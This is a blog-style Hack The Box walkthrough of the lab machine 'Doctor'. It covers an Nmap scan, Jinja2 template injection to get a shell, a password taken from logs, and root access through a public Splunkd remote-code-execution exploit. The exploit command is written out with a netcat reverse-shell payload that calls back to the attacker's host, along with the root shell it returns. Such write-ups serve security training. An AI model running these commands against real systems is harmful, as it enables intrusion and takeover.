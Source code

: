 ```yaml
---
layout: post
title:  "Doctor Hack The Box Walkthrough"
date:   2021-02-15 15:00:00 +0530
categories: HackTheBox HTB CTF
---
```

Doctor is a machine in which I used Server Side Template injection to get to obtain shell access and then used enumeration and exploit vulnerable service to get root Access.

## Scanning
As always, I started scanning with Nmap

```
nmap -sV -sV 10.10.10.209
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-29 10:35 EDT
Nmap scan report for doctors.htb (10.10.10.209)
Host is up (0.17s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
8089/tcp open  ssl/http Splunkd httpd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.74 seconds
```
A Normal HTTP, SSH Services and service called splunkd we will look it up later.

## Important 
An Important thing to do is to add the ip and domain to /etc/hosts becuase of the host routing.
```
127.0.0.1       localhost
127.0.1.1       kali
10.10.10.209 doctors.htb
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
## Testing
So First I tried to browse the site using the ip there is nothing important there so I got in using doctors.htb and a login page appeared!

![Username](/assets/image/010/1.png)

I made an account and logged in and started making new messages. I was susspious about three things as the machine name is "Doctor"

1. SQL Injection (Failed)
2. XXE Injection (Vulnerable but coulding get Shell)
3. Server Side Template Injection (Succeed)

Using the inspect element I found another directory 
![Username](/assets/image/010/2.png)

I tested the new messages both title and content. so found title is vulnerable to SSTI and visite /archive to execute. and found the code executed so it's Server-Side Template Injection.
![Username](/assets/image/010/3.png)

![Username](/assets/image/010/4.png)

I tried to identify the template engine and it was jinja 2. So, I started listening on netcat and added the payload to title as the pervious example and executed it as I visited /archive
```
nc -lvnp 9999
```
![Username](/assets/image/010/5.png)

## Privilege Escalation 
I ran Linpeas and found a strange thing in password in logs section 

![Username](/assets/image/010/6.png)

So, I tried to su shaun using this as a password and it worked! At this time, I was thinking about the usage of Splunkd so I started searching for exploits and found this one
[Exploit](https://github.com/DaniloCaruso/SplunkWhisperer2/blob/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py)

Imeditatly I downloaded it and ran it

```
python exploit.py --host 10.10.10.209 --port 8089 --lhost 10.10.14.110 --payload "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.110 1234 >/tmp/f" --username shaun --password Guitar123
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmp5iVeZF.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.110:8181/
10.10.10.209 - - [29/Sep/2020 10:56:24] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

```
And Started a listened in other netcat session

```
kali@kali:~$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.110] from (UNKNOWN) [10.10.10.209] 59218
/bin/sh: 0: can't access tty; job control turned off
# whoami
root

```
and voila here is the root privilege!






